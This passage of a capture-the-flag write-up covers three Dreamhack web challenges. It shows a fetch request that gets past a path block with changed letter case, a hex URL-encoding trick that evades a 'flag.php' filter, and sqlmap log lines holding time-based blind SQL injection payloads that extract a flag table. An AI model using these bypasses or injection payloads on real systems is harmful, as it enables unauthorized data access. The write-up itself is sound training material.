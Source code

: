 In this challenge, the endpoints `/shop` and `/shop/...` are prohibited, so I sent a `POST` request to `/shoP` with the data set as `leg=flag`.

`script`
```javascript
fetch('shoP', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'leg=flag'
}).then(res=>res.text()).then(text=>console.log(text));
```

## simple-phparse

[Challenge](https://dreamhack.io/wargame/challenges/1367)
[Source](https://sfo2.digitaloceanspaces.com/wargame1/public/465d7769-db68-4ebb-9e94-7d260e8c34a4.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=OIK4A6AORYFTHBTQUV55%2F20241231%2Fsfo2%2Fs3%2Faws4_request&X-Amz-Date=20241231T004835Z&X-Amz-Expires=86400&X-Amz-SignedHeaders=host&X-Amz-Signature=5ff5cfdcf50f9d845c1ef515f919a4d218075df845372a0dc2eb8ccf082ababd)

In this challenge, we just need to bypass `flag.php` by URL-encoding it and converting the characters into hex to trick the server.

```shell
flag.php = %66%6c%61%67%2e%70%68%70
```

## access-log

[Challenge](https://dreamhack.io/wargame/challenges/1227)
[Source](https://sfo2.digitaloceanspaces.com/wargame1/public/72c81a85-7938-4771-8d65-4907a17e6d12.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=OIK4A6AORYFTHBTQUV55%2F20241231%2Fsfo2%2Fs3%2Faws4_request&X-Amz-Date=20241231T002147Z&X-Amz-Expires=86400&X-Amz-SignedHeaders=host&X-Amz-Signature=588d29a9b63e93e4df9cf4846080ef1d891a6d4298f54f5dd48ea60d84a7bc32)

In this challenge, our task is to analyze the hacker's attack using the `Time-Based Blind SQL Injection` payload. Based on that, I followed the payloads and found a field containing the `flag`. Then, I proceeded to filter it out and obtained the result:

```shell
172.20.0.1 - - [26/Apr/2024:17:50:51 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%208487%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28%2A%29%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%29%2C1%2C1%29%29%3E790966%29%2CSLEEP%281%29%2C8487%29--%20Adyu&Submit=Submit HTTP/1.1" 200 1797 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:50:51 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%208487%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28%2A%29%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%29%2C1%2C1%29%29%3E869334%29%2CSLEEP%281%29%2C8487%29--%20Adyu&Submit=Submit HTTP/1.1" 200 1798 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:50:51 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%208487%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28%2A%29%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%29%2C1%2C1%29%29%3E592838%29%2CSLEEP%281%29%2C8487%29--%20Adyu&Submit=Submit HTTP/1.1" 200 1797 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:50:51 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%208487%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28%2A%29%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%29%2C1%2C1%29%29%3E277472%29%2CSLEEP%281%29%2C8487%29--%20Adyu&Submit=Submit HTTP/1.1" 200 1796 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:50:51 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%208487%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28%2A%29%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%29%2C1%2C1%29%29%3E391041%29%2CSLEEP%281%29%2C8487%29--%20Adyu&Submit=Submit HTTP/1.1" 200 1796 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
172.20.0.1 - - [26/Apr/2024:17:50:51 +0000] "GET /vulnerabilities/sqli/?id=1%27%20AND%208487%3DIF%28%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28%2A%29%20AS%20CHAR%29%2C0x20%29%20FROM%20dvwa.flag%29%2C1%2C1%29%29%3E355987%29%2CSLEEP%281%29%2C8487%29--%20Adyu&Submit=Submit HTTP/1.1" 200 1798 "-" "sqlmap/1.2.4#stable (http://sqlmap.org)"
```

[^0-8\"]: Matches any character that is not a digit from 0 to 8 or the double-quote character ".